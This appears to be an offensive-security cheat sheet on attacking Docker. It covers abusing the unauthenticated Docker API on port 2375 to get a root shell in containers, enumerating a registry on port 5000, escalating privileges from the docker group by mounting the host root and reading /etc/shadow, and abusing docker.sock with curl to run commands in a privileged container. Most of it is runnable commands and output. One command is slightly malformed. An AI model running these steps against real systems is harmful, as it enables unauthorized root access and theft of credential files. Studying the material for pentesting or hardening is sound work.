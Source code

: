 ```yaml
---
title: "Docker"
description: "Docker commands"
date: 22/09/2020
categories:
 - misc
tags:
 - docker
 - API
---
```



## Docker API

The docker API expose the port `2375`. This API can be used to interact with the docker engine which basically give ou the right to do anything you desire unauthenticated.

To confirm that the host is running Docker you can make a GET requests to `/version` :

```http
http://<host>:<port>/version

{"Platform": {"Name": ""}, "Components": [{"Name": "Engine", "Version": "18.06.1-ce", "Details": {"ApiVersion": "1.38", "Arch": "amd64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00", "Experimental": "false", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "MinAPIVersion": "1.12", "Os": "linux"}}], "Version": "18.06.1-ce", "ApiVersion": "1.38", "MinAPIVersion": "1.12", "GitCommit": "e68fc7a/18.06.1-ce", "GoVersion": "go1.10.3", "Os": "linux", "Arch": "amd64", "KernelVersion": "4.14.47-64.38.amzn2.x86_64", "BuildTime": "2018-10-26T23:39:57.000000000+00:00"}
```

Then, using the CLI you can execute commands, for instance:
```bash
$ docker -H <host>:<port> ps

CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
be2dd8aa8222        ubuntu:14.04        "bash"              5 years ago         Up 2 seconds                            silly_elion

$ docker -H <host>:<port> exec -it <container_name> /bin/bash
root@abc:/# whoami
root
```


## Registry server

The registry server is deployed on port `5000`. Go to `/v2/_catalog` on your browser to
check if this is a registry server.

```http
http://<host>:5000/v2/_catalog
```

The server responds with the list of repositories:

```json
{"repositories":["repostitory-1"]}
```

You can configure your docker client to connect to this server.

```bash
sudo docker login <host>:5000
```

If there is a custom certificate, then add an exception in `/etc/docker/daemon.json` with:

```json
{
    "insecure-registries":[ "<host>:5000"]
}
```


## Privilege Escalation

If the current user belong to the `docker` group then he can start a container
with a binding to files own by root and read them:

```bash
docker run --it --rm -v /:/mnt alpine:latest /mnt sh
```

Inside the container shell he can read all the files as root:

```bash
cat /etc/shadow
```


## Save image to tar file

```bash
docker save -o output.tar public.ecr.aws/xxx/yyy
```

## Exploit docker.sock with curl

From [https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/
):

```bash
root@1nmyd0ck3r:~# ls -al /var/run/docker.sock
srw-rw---- 1 root 998 0 May 29 15:07 /var/run/docker.sock

root@1nmyd0ck3r:~# curl --unix-socket /var/run/docker.sock http://127.0.0.1/containers/json
[
    {
        "Id": "9a79cbdfbc4d48982f1a427909bb6...",
        # ...
    },
    {
        "Id": "76b79677e3cc5db8764df08d75474...",
        # ...
    }
]

root@1nmyd0ck3r:~# curl -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' --unix-socket /var/run/docker.sock http://127.0.0.1/containers/9a79cbdfbc4d48982f1a427909bb6.../exec
{"Id":"1bb5e42858b7f684152a66e8ac54ced5c80aa0c50d1eb5a482341076d61ee256"}

root@1nmyd0ck3r:~# curl --output - -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' --unix-socket /var/run/docker.sock http://127.0.0.1/exec/1bb5e42858b7f684152a66e8ac54ced5c80aa0c50d1eb5a482341076d61ee256/start
```
